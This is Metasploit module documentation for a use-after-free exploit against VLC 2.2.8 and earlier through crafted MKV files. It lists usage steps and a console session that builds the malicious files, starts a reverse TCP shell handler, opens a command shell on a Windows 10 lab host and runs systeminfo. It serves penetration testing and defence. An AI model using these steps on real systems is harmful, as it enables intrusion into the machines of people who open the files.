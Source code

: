 ## Description

VideoLAN VLC <= v2.2.8 (32 and 64 bit) are vulnerable to a use-after-free vulnerability that exists in the parsing of MKV files.

This module has been tested against 32 and 64 bit versions of VLC v2.2.8 on Windows 10 Pro x64.

## Vulnerable Application

[VLC](https://get.videolan.org/vlc/) <= v2.2.8

## Verification Steps

- `./msfconsole -q`
- `use exploit/windows/fileformat/vlc_mkv`
- `run`
- Start handler
- Copy over mkv files to target hosts and open part1 in VLC
- Set a shell

## Scenarios

### Windows 10 x64 running VLC 2.2.8 (x64)

```
msf5 > use exploit/windows/fileformat/vlc_mkv
msf5 exploit(windows/fileformat/vlc_mkv) > set lhost 172.22.222.134 
lhost => 172.22.222.134
msf5 exploit(windows/fileformat/vlc_mkv) > run

[+] tjub-part1.mkv stored at /home/msfdev/.msf4/local/tjub-part1.mkv
[*] Created tjub-part1.mkv. Target should open this file
[+] tjub-part2.mkv stored at /home/msfdev/.msf4/local/tjub-part2.mkv
[*] Created tjub-part2.mkv. Put this file in the same directory as tjub-part1.mkv
[*] Appending blocks to tjub-part1.mkv
[+] Succesfully appended blocks to tjub-part1.mkv
msf5 exploit(windows/fileformat/vlc_mkv) > handler -p windows/x64/shell/reverse_tcp -H 172.22.222.134 -P 4444
[*] Payload handler running as background job 0.
msf5 exploit(windows/fileformat/vlc_mkv) > 
[*] Started reverse TCP handler on 172.22.222.134:4444 
[*] Sending stage (336 bytes) to 172.22.222.200
[*] Command shell session 2 opened (172.22.222.134:4444 -> 172.22.222.200:49731) at 2018-10-10 12:08:58 -0500
sessions -i 2
[*] Starting interaction with 2...

systeminfo
systeminfo

Host Name:                 DESKTOP-IPOGIJR
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.17134 N/A Build 17134
```
